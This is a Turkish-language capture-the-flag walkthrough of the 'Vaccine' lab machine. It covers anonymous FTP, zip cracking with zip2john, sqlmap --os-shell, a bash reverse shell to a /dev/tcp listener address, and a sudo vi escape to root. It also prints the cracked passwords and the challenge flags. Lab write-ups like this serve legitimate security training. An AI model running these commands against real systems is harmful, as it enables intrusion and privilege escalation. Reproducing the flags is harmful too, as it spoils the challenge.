










VACCİNE :

Q1: Besides SSH and HTTP, what other service is hosted on this box?

A1: FTP

Q2: This service can be configured to allow login with any password for
specific username. What is that username?

A2: anonymous

Q3: What is the name of the file downloaded over this service?

A3: backup.zip

Q4: What script comes with the John The Ripper toolset and generates a
hash from a password protected zip archive in a format to allow for
cracking attempts?

A4: zip2john

Q5: What is the password for the admin user on the website?

A5: qwerty789

## zip2john ile zip’in önce hash’ini alıp sonra john ve rockyou.txt’yi kullanarak kırdık ardından içerisinden index.php ve style.css çıktı , index.php’yi okuduk ve

Crackstation:

Q6: What option can be passed to sqlmap to try to get command execution
via the sql injection?

A6: --os-shell

bu sorunun cevabını almak için sudo -l komutunu kullanmamız gerekiyor
ancak sqlmap’teki Shell etkileşimli bir kabuk olmadığı için (sorgumuza
dönüt alabiliyoruz ancak sudo şifresini istediğinde giremiyoruz) tam
etkileşimli bir kabuğua geçmnek için klasik komutlar olan

bash -c "bash -i \>& /dev/tcp/{your_IP}/443 0\>&1" (sqlmap’ten
gönderdik)

nc -lvnp 443 ile kurduğumuz listenerdan aldık

ardından sırasıyla :

python3 -c 'import pty;pty.spawn("/bin/bash")'

CTRL+Z

stty raw -echo

fg export

TERM=xterm

adımlarını uygulayarak tam etkileşimli bir Shell elde ettik ve

postgresql dizininde user flag’e ulaştık

ancak

sudo -l komutunu kullanmak için parolayı hala bilmiyoruz postgres
kullanıcısının şifresini öğrenmemiz gerekiyor.

biraz araştırmadan sonra /var/www/html dizininde dashboard.php
dosyasında bir satır göze çarpıyor.

postgres kullanıcısının parolası : P@s5w0rd!

artık ssh ile bağlanabiliriz ve sudo -l komutunu çalıştırabiliriz.

Q7: What program can the postgres user run as root using sudo?

A7: vi

pg_hba.conf dosyasını sudo(root yetkileriyle) vi kullanarak açabiliyoruz

gtfobins’den araştırdıktan sonra

sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf komutunu çalıştırıp vi
kullanarak bu dosyayı açıyoruz ve ardından : ile komut moduna geçip
:!/bin/sh yazıyoruz ve bize etkileşimli bir root shell’i veriyor

Q8: (User Flag) : Submit the flag located in the postgres user's home
directory.

A8: ec9b13ca4d6229cd5cc1e09980965bf7

Q9: (Root Flag) : Submit the flag located in root's home directory.

A9: dd6e058e814260bc70e9bbdef2715849

